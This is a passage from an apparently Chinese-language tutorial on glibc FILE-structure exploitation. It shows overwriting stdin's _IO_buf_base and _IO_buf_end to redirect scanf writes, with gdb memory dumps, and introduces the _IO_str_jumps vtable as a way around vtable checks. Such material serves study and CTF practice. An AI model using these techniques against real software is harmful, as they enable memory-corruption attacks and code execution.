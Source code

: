 接下来我们尝试修改_IO_buf_base来实现任意地址读写，全局缓冲区buf的地址是0x7ffff7dd2740。修改_IO_buf_base和_IO_buf_end到缓冲区buf的地址

```
0x7ffff7dd18e0 <_IO_2_1_stdin_>:	0x00000000fbad2288	0x0000000000602013
0x7ffff7dd18f0 <_IO_2_1_stdin_+16>:	0x0000000000602014	0x0000000000602010
0x7ffff7dd1900 <_IO_2_1_stdin_+32>:	0x0000000000602010	0x0000000000602010
0x7ffff7dd1910 <_IO_2_1_stdin_+48>:	0x0000000000602010	0x00007ffff7dd2740 <== _IO_buf_base
0x7ffff7dd1920 <_IO_2_1_stdin_+64>:	0x00007ffff7dd27c0	0x0000000000000000 <== _IO_buf_end
0x7ffff7dd1930 <_IO_2_1_stdin_+80>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1940 <_IO_2_1_stdin_+96>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1950 <_IO_2_1_stdin_+112>:	0x0000000000000000	0xffffffffffffffff
0x7ffff7dd1960 <_IO_2_1_stdin_+128>:	0x0000000000000000	0x00007ffff7dd3790
0x7ffff7dd1970 <_IO_2_1_stdin_+144>:	0xffffffffffffffff	0x0000000000000000
0x7ffff7dd1980 <_IO_2_1_stdin_+160>:	0x00007ffff7dd19c0	0x0000000000000000
0x7ffff7dd1990 <_IO_2_1_stdin_+176>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd19a0 <_IO_2_1_stdin_+192>:	0x00000000ffffffff	0x0000000000000000
0x7ffff7dd19b0 <_IO_2_1_stdin_+208>:	0x0000000000000000	0x00007ffff7dd06e0
```

之后scanf的读入数据就会写入到0x7ffff7dd2740的位置

```
0x7ffff7dd2740 <buf>:	0x00000a6161616161	0x0000000000000000
0x7ffff7dd2750 <buffer>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd2760 <buffer>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd2770 <buffer>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd2780 <buffer>:	0x0000000000000000	0x0000000000000000
```

### _IO_str_jumps -> overflow

`libc`中不仅仅只有`_IO_file_jumps`这么一个`vtable`，还有一个叫`_IO_str_jumps`的 ，这个 `vtable` 不在check范围之内。

```c
const struct _IO_jump_t _IO_str_jumps libio_vtable =
{
  JUMP_INIT_DUMMY,
  JUMP_INIT(finish, _IO_str_finish),
  JUMP_INIT(overflow, _IO_str_overflow),
  JUMP_INIT(underflow, _IO_str_underflow),
  JUMP_INIT(uflow, _IO_default_uflow),
  JUMP_INIT(pbackfail, _IO_str_pbackfail),
  JUMP_INIT(xsputn, _IO_default_xsputn),
  JUMP_INIT(xsgetn, _IO_default_xsgetn),
  JUMP_INIT(seekoff, _IO_str_seekoff),
  JUMP_INIT(seekpos, _IO_default_seekpos),
  JUMP_INIT(setbuf, _IO_default_setbuf),
  JUMP_INIT(sync, _IO_default_sync),
  JUMP_INIT(doallocate, _IO_default_doallocate),
  JUMP_INIT(read, _IO_default_read),
  JUMP_INIT(write, _IO_default_write),
  JUMP_INIT(seek, _IO_default_seek),
  JUMP_INIT(close, _IO_default_close),
  JUMP_INIT(stat, _IO_default_stat),
  JUMP_INIT(showmanyc, _IO_default_showmanyc),
  JUMP_INIT(imbue, _IO_default_imbue)
};
```
